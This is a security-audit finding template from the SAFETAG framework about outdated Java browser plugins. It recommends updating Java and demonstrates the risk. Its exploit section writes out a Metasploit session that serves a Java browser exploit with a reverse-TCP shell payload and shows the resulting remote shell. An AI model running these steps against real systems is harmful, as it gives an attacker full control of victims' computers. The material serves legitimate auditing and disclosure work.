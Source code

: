 ```yaml
---
id: check-user-browser-vulns
name: Check user browser vulnerabilities
description: Outdated Java browser plugins
origin: https://github.com/SAFETAG/SAFETAG
origin_path: master/en/exercises/check_user_browser_vulns/browser_java_plugin.md
---
```

# Check user browser vulnerabilities







## summary

Outdated Java browser plugins

One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable version of the Java plugin for Internet Explorer.


## description

This version contains a vulnerability that is easily exploitable using one of the recent Java exploit modules from the widely available Metasploit security auditing framework. These modules allow an attacker to gain complete control over the computer of a victim who visits a malicious Web site hosted anywhere on the Internet. If the attacker is inside the office LAN, they can easily trick the victim into visiting that malicious Web site without the victim even knowing it.

## recommendation

At least one of the organization’s computers is running an outdated Java browser plugin, and exploit code is widely-available for several critical vulnerabilities in versions older than “Java 7, update 16.” All of the organization’s Java installations should be updated to the latest version. This can be troublesome, as (unlike the Windows operating system itself) Java plugins sometimes require user input before they will install updates.


## exploit

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell



